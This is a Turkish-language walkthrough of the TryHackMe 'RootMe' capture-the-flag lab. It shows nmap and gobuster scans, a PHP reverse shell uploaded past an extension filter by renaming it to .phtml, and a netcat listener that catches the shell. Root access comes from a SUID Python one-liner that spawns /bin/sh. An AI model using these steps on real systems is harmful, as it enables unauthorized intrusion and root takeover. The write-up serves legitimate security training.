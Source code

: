# RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

>nmap -sC -sV <İP> -Pn

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


>gobuster dir -u <İP> -w /usr/share/dirb/wordlists/common.txt

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
>Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
>Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
```
/css dizininde home dizini ve /panel dizinin css kodları var.
/js dizininde bir js kodu var.
/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.
/uploads dizini yüklenen dosyaların bulunduğu dizin
```
##### Php reverse shell indirmek ve düzenlemek:
----
Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) indirebilirsiniz.
```
Php reverse shelli açıp tun0 ipimizi ve dinleycek portumuzu yazıyoruz.
```
##### php reverse shelli /panel adresine yüklemek:
--------
```
Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`
```
##### Shelli almaya calışıyoruz:
-----
```
/uploads dizinine yuklenen dosyaların gittigini biliyorduk.
Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.
nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.
/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz
Ve Bağlantı Geliyor
```
##### User flagı buluyoruz:
------
>Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
>find / -user root -perm /4000 2>/dev/null
```
komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.
/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.
```
[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:

>-c 'import os; os.setuid(0); os.system("/bin/sh")'

`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

>/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'


>id yazarak root olduğumuzu görüyoruz:

`uid=0(root) gid=33(www-data) groups=33(www-data)`


`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







